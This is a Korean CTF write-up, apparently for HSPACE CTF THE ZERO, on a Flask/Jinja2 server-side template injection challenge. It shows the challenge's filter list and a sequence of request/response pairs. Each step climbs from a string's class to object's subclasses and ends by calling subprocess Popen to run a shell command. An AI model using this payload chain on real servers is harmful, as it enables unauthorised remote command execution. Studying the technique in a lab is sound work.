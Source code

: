 ```jsx
{% raw %}{{flag()}}{% endraw %}
```

```jsx
lv1 = ([lv2] https://1f07690201acafa9871483b5a81e1353.imreplay.com/
server2: https://7f788d25dc617ebb50b38460d81089ef4b2ae1baa.imreplay.com)
```

**level2**

---

level1 보다 필터링이 느슨하지만 flag() 함수는 없습니다.

```jsx
filter list [ "config", "items", "os", "%" ]
```

```python
[Request]
{% raw %}{{"".__class__}}{% endraw %}

[Response]
lv2 = (<class 'str'>)
```

```python
[Request]
{% raw %}{{"".__class__.__base__}}{% endraw %}

[Response]
lv2 = (<class 'object'>)
```

```python
[Request]
{% raw %}{{"".__class__.__base__.__subclasses__()}}{% endraw %}

[Response]
lv2 = ([<class 'type'>, <class 'weakref'>, <class 'weakcallableproxy'>, <class 'weakproxy'>, <class 'int'>, <class 'bytearray'>, <class 'bytes'>, <class 'list'>, <class 'NoneType'>, <class 'NotImplementedType'>, <class 'traceback'>, <class 'super'>, <class 'range'>, <class 'dict'>, <class 'dict_keys'>, <class 'dict_values'>, <class 'dict_items'>, <class 'dict_reversekeyiterator'>, <class 'dict_reversevalueiterator'>, <class 'dict_reverseitemiterator'>
...
...
...
<class 'flask.json.tag.TaggedJSONSerializer'>, <class 'flask.sessions.SessionInterface'>, <class 'werkzeug.wrappers.json._JSONModule'>, <class 'werkzeug.wrappers.json.JSONMixin'>, <class 'flask.blueprints.BlueprintSetupState'>, <class 'jinja2.ext.Extension'>, <class 'jinja2.ext._CommentFinder'>])
```

여기서 쭈-욱 보다 보면 Popen을 찾을 수 있습니다.

![](https://cdn.jsdelivr.net/gh/SaturnX-Korea/saturnx-korea.github.io/assets/post/HSPACE%20CTF%20THE%20ZERO%20Write-up%2091ac8e6fcfa64ea3ba4259919f19470e/Untitled%204.png)

```python
[Request]
{% raw %}{{().__class__.__base__.__subclasses__()[233]('ls',shell=True,stdout=-1).communicate()[0].strip()}}{% endraw %}

[Response]
lv2 = (b'Dockerfile\napp.py\nflag.txt\nstatic\ntemplates')
```
